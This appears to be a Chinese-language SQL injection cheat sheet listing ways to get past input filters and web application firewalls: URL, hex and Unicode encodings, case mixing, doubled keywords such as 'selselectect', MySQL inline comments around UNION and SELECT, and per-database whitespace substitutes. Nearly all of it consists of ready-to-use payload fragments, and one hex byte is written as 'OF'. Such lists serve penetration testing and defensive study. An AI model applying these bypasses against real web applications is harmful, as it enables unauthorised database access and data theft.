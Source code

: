 ```sql
urlencode，ascii(char)，hex，unicode编码绕过
%u0029 %uff09
%c0%29 %c0%a9
%e0%80%a9
```



#### 过滤union\select

```sql
逻辑绕过
例：
过滤代码 union select user,password from users
绕过方式 1 && (select user from users where userid=1)='admin'

十六进制字符绕过
select ——> selec\x74
union——>unio\x6e

大小写绕过
SelEct

双写绕过
selselectect
uniunionon

urlencode，ascii(char)，hex，unicode编码绕过

关键字内联绕所有
/*!union*/
/*!select*/
```



#### 过滤空格

```sql
用Tab代替空格%20 %09 %0a %0b %0c %0d %a0 /**/()
绕过空格注释符绕过//--%20/**/#--+-- -;%00;

空白字符绕过SQLite3  ——     0A,0D,0c,09,20
MYSQL
	09,0A,0B,0B,0D,A0,20
PosgressSQL
	0A,0D,0C,09,20
Oracle_11g
	00,0A,0D,0C,09,20
MSSQL
	01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,OF,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
特殊符号绕过
	`  +  ！
等科学计数法绕过
	例：
	select user,password from users where user_id0e1union select 1,2
unicode编码
    %u0020 %uff00
    %c0%20 %c0%a0 %e0%80%a0
```
